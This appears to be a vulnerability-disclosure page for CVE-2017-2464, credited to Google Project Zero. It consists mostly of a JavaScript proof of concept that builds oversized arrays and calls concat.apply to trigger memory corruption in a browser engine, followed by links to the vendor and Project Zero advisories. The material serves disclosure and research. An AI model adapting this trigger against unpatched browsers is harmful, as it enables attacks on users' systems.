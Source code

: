 # CVE-2017-2464

- Report: Jan 2017
- Fix: Mar 2017
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = [];
a.length = 0xffffff00;

var b = a.splice(0, 0x100000); // Undecided array

var args = [];
args.length = 4094;
args.fill(b);

var q = [];
q.length = 0x1000;
q.fill(7);

var c = a.splice(0, 0xfffef); //Shorter undecided array

args[4094] = c;
args[4095] = q;


b.concat.apply(b, args);
```

## Reference

- [Apple](https://support.apple.com/en-us/HT207617)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1095)
